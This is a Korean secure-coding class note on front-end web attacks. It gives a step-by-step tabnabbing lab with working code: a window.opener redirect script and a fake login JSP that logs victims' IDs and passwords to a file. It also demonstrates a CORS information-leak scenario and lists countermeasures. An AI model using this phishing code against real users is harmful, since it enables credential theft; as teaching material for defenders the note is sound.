 # Front-End 보안

Class: Secure Coding
Created: Mar 24, 2020 9:19 AM
Reviewed: No

### 웹 보안 영역 (시큐어코딩 X) ⇒ 웹 서버 관리자의 역할

### * 사용자 브라우저에 있는 정보를 해커 PC에 전달 (XSS 기반 공격)

### * 사용자가 원치 않는 행위를 수행

### * 시나리오 중심 이해

## 1. tabnabbing 공격

---

1. C:\Windows\System32\drivers\etc\hosts 파일을 관리자 권한으로 메모장에서 열어 다음과 유사하게 추가한다.

    [HOST_IP] openeg.com

    [HOST_IP] openeq.com

    [HOST_IP] insecure.com

2. 해커머신에서 404.html 을 생성 (게시글에서 링크 클릭했을 경우 생기는 페이지)

    <script>

    if(window.opener){

    opener.location='잘못된 로그인 페이지 주소';

    }else{

    document.querySelector("h1").innerHTML='The previous tab is safe and intact...';

    }

    </script>

3. 해커머신에서 fakeLogin.jsp (잘못된 로그인 페이지)을 생성

    <%@page import="java.util.Date"%>

    <%@page import="java.io.*"%>

    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

    <%

    String id = request.getParameter("userId");

    if (id == null) id = "";

    String pw = request.getParameter("userPw");

    if (pw == null) pw = "";

    String log = String.format("<br/>ID = [%s]\tPW = [%s]", new Object[] { id, pw });

    try {

    String filename= request.getSession().getServletContext().getRealPath("/log.html");

    FileWriter fw = new FileWriter(filename, true); //the true will append the new data

    fw.write(log);

    fw.close();

    } catch (IOException e) {

    e.printStackTrace();

    }

    System.out.println(log);

    response.sendRedirect("정상적인 로그인주소");  <!— 정상적인 로그인 주소!—>

    %>

4. 해커머신에서 fakeLogin.html (잘못된 로그인 페이지)를 생성
5. 해커서버 가동
6. 해커가 정상적인 로그인페이지에서 로그인 후 다음의 게시글을 생성

    <a href='잘못된 로그인 페이지 주소' target='_blank'>재밌는 영상은 여기~</a>

7. 희생자가 해당 게시글을 보고, 링크를 클릭
8. 404 에러 페이지가 생성되고, 기존의 로그인 페이지가 잘못된 로그인 페이지로 리다이렉트된다.
9. 희생자는 잘못된 로그인 페이지에서 재로그인한다.
10. 해커는 희생자의 계정정보를 탈취한다. (해커서버에서 확인)
11. 희생자는 자신의 계정정보가 탈취된 사실을 알지 못한다.

### 대응방안

- <a>, <src> 태그 및 HTML 5에 추가된 신규 태그<veidio> 등에 대한 실행 제한

## 2. CORS를 이용한 사용자 개인정보 탈취

---

### CORS의 역할

- 특정 조건을 만족할 경우 동일출처정책(SOP, Same Origin Policy)에 의한 제한을 완화하는 데 사용

### 서버 구성 (공격 시나리오)

- 구글 서버 (XSS에 취약)  : [insecure.com](http://insecure.com)
- 오픈이지 서버 : [openeg.com](http://openeg.com)

### (1) 구글 서버와 오픈이지 서버 간의 CORS 확인

1. WebContent>cors>insecure>에 (구글 서버) getUserInfo.jsp를 다음과 같이 작성후 크롬 웹브라우저에서 해당 페이지를 요청해 보면 admin 정보가 출력된다.

    <%@page import="java.util.*"%><%@page import="java.io.*"%><%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

    <%

    out.println("<h1>insecure.com의 관리자 정보: id=admin pw=insecure</h1>");

    %>

2. WebContent>cors>openeg>에 (오픈이지 서버)  getUserInfo.jsp를 다음과 같이 작성후 크롬 웹브라우저에서 해당 페이지[를](http://openeg.com:8181/openeg/cors/openeg/getUserInfo.jsp%EB%A5%BC) 요청해 보면 admin 정보가 출력된다.

    <%@page import="java.util.*"%><%@page import="java.io.*"%><%@ page lang

    uage="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

    <% out.println("{ \"id\":\"admin\", \"grade\":\"common\", \"company\":\"XXX\", \"email\":\"admin@open.com\", \"telephone\":\"010-999-00000\" }");

    %>

3. WebContent>cors>insecure> (구글 서버)에 sop_test.jsp를 다음과 같이 작성 후해당 페이지;[를](http://insecure.com:8181/openeg/cors/insecure/sop_test.jsp%EB%A5%BC) 실행하면 버튼이 두 개 보인다.

    <%@ page language="java" contentType="text/html; charset=UTF-8"

    pageEncoding="UTF-8"%>

    <!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">

    <html>

    <head>

    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">

    <title>Insert title here</title>

    <script src="../js/jquery-1.7.1.js"></script>

    <script type="text/javascript">

    var xhr;

    function a(){

    xhr = new XMLHttpRequest();

    var url='insecure 서버의 페이지 주소';

    xhr.open('GET',url);

    xhr.onload = function() {

    alert(xhr.responseText);

    };

    xhr.onerror = function() {

    alert('Woops, there was an error making the request.');

    };

    xhr.send();

    }

    function b(){

    xhr = new XMLHttpRequest();

    var url='openeg 서버의 페이지 주소';

    xhr.open('GET',url);

    xhr.onload = function() {

    alert(xhr.responseText);

    };

    xhr.onerror = function() {

    alert('Woops, there was an error making the request.');

    };

    xhr.send();

    }

    </script>

    </head>

    <body>

    <button onclick="a()" >XHR로 insecure 서버의 페이지 주소의 사용자 정보 보기</button><br><br>

    <button onclick="b()" >XHR로 openeg 서버의 페이지 주소의 사용자 정보 보기</button>

    </body>

    </html>

4. 윗 버튼을 누르면 insecure.com 이 오리진인 자바스크립트가 같은 스킴으로 getUserInfo.jsp를 요청하므로 사용자 정보가 잘 보인다.
5. 아래 버튼을 누르면 insecure.com 이 오리진인 자바스크립트가 다른 스킴([openeg.com](http://openeg.com/))으로 getUserInfo.jsp를 요청하므로 사용자 정보가 안 보인다.==>SOP(Same Origin Policy)때문!
6. WebContent>cors>openeg>getUserInfo.jsp (openeg 서버)에 다음 코드를 추가해 놓는다.  ⇒ 모든 오리진에서 사용자 정보가 잘 확인된다

### (2) 공격 시나리오

---

1. [insecure.com](http://insecure.com/) 사이트와 [openeg.com](http://openeg.com/) 사이트는 서로 신뢰 관계가 있다고 가정하고 WebContent>cors>openeg>getUserInfo.jsp에 다음 코드를 추가한다.

response.setHeader("Access-Control-Allow-Origin", "insecure.com 주소");

### 대응방안

---

- CORS 요청을 받는 페이지를 제한 (현실적으로 어려움)
- 취약한 파트너사의 서버에 XSS 대응 조치

## 3. WebSocket을 이용한 내부 네트워크 정보를 수집

---

## 4. WebStorage을 이용한 사용자 개인정보 수집

---

## 5. Web Worker를 이용한 DDoS 공격

---

### Web Worker

- 웹 브라우저에서 동작하는 스레드

### 공격 시나리오

---

### 대응방법

---

- XSS 공격 방어
- CORS 보안 대책
    - Cross Origin 요청을 허용하는 도메인을 명확하게 지정